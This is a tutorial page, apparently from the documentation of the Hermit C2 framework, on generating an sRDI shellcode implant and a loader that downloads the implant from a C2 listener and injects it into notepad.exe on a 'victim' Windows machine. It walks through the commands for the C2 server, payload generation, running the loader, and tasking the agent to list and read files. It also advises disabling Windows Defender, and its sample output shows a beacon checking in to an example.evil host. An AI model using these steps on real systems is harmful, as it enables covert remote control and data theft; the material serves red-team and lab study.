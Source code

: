 # Load & Execute Shellcode Implant

This tutorial explains about generating a shellcode implant and load/inject it with a shellcode loader.  
Hermit can do that easily because it has features to generate **sRDI** shellcode.  

Before starting, we assume that you've already done [the tutorial: Simple Implant Beacon](./simple-implant-beacon.md). If not yet, please complete it first.

> IMPORTANT: It's heavily recommended to use **a virtual machine** for Windows victim machine because If we modify the registry etc., the system might not work properly. Also we recommend temporarily turning off real-time protection of **Windows Defender** as it is likely to be detected by Windows Defender.

## 1. Start C2 Server & Start Listener

Maybe we're familiar with these steps already, so proceed easily.

```sh
# 1. Start C2 server
./hermit

# 2. Start new listener
Hermit > listener new
```

## 2. Generate sRDI Shellcode

**sRDI (Shellcode Reflective DLL Injection)** is a technique that converts DLL to position independent shellcode. Please see [the original implementation](https://github.com/monoxgas/sRDI) for details.  
This allows us to generate a shellcode implant with just a few step. Hermit makes that even easier, so just run `payload gen` command as below image:  

![payload gen shellcode](../assets/images/terminal/payload_gen_implant_beacon_shellcode_win_amd64_exe.png)

In the wizard as image above, choose the following:

```txt
1. What to generate?        -> implant
2. Implant type             -> beacon
3. OS/Arch/Format           -> windows/amd64/bin
4. Listener URL to Connect  -> the listener URL that is created & started in the previous section
```

The rest is optional.  

>IMPORTANT: **Please note that we need to choose `windows/amd64/bin` for `OS/Arch/Format` to generate a shellcode.**

After that, the generated implant is saved under `$HOME/.hermit/server/listeners/https-<listener_name>/payloads/`.  

>IMPORTANT: **Do not move this file because a loader can automatically find and download an implant in the corresponding listener's folder.**  

## 3. Generate Shellcode Loader

Next, we generate a shellcode loader that downloads the generated shellcode implant from a listener and execute it in the victim machine.  
To do so, run `payload gen` command again as below image:

![payload gen loader](../assets/images/terminal/payload_gen_loader_shellcode_win_amd64_exe.png)

In the wizard as image above, choose the following:

```txt
1. What to generate?                -> loader
2. Loader type                      -> shellcode-loader
3. OS/Arch/Format                   -> windows/amd64/exe
4. Listener URL to Connect          -> the same URL which is choosed in the previous 'payload gen' section.
5. Injection Technique              -> shellcode-injection (here select the most basic technique for tutorial...)
6. Target Process to be Injected    -> empty ('notepad.exe' by default)
```

After that, the generated loader is saved under `$HOME/.hermit/server/listeners/https-<listener_name>/payloads/` just like with the implant.  

**Now transfer this file to Windows victim machine.**  

## 4. Execute Shellcode Loader

### Start Target Process

In the Windows victim machine, we need to open `Notepad` at first because we inject a shellcode implant to a specified process (we've chosen `notepad.exe` in the previouse section).  

```powershell title="Windows Victim Machine"
notepad.exe
```

### Execute Loader

Then execute the loader which was transfered in the previous section.

```powershell title="Windows Victim Machine"
# Replace the filename with your own.
.\shellcode-loader.exe
```

Now the loader will download our shellcode and inject it into the `Notepad` process.  
After a few seconds, see the agent has been checked-in with `agents` command in the Hermit console:

```sh title="Hermit C2 Server Console"
Hermit > agents
[+]
ID  Name         IP           OS/Arch        Hostname  ListenerURL                 ImplantType  CheckIn              SessionID
1   agent-bruce  172.20.32.1  windows/amd64  machine   https://example.evil:65372  beacon       2024-05-30 09:13:38  Zy8ZPj1P0tFw58Bwv8XGZpzfuhZ2Z5P1
```

We could inject a shellcode implant into the target process successfully.  

## 5. Mission Complete!

Congratulations! Now we can do something with a shellcode implant.  

## 6. Try Tasks...

Okay, the purpose of this tutorial has been achieved so we can finish here, but it's a little boring, so let's play around with a few tasks!  
First of all, enter the agent mode:

```sh title="Hermit C2 Server Console"
Hermit > agent use 1
[+] Switched to agent mode.
Hermit [agent-bruce] > 
```

### Task: `pwd`

To print current working directory path, run the following task:

```sh title="Hermit C2 Server Console"
Hermit [agent-bruce] > pwd
```

Then after a few seconds, check the result with `loot show` command.  

### Task: `ls`

To print files in the current directory, run the following task:

```sh title="Hermit C2 Server Console"
Hermit [agent-bruce] > ls
```

### Task: `cat`

To print a specified file contents, run the following task:

```sh title="Hermit C2 Server Console"
Hermit [agent-bruce] > cat example.txt
```

## 7. Stop Implant

As explained in other tutorials, run the `kill` task to terminate the implant.  


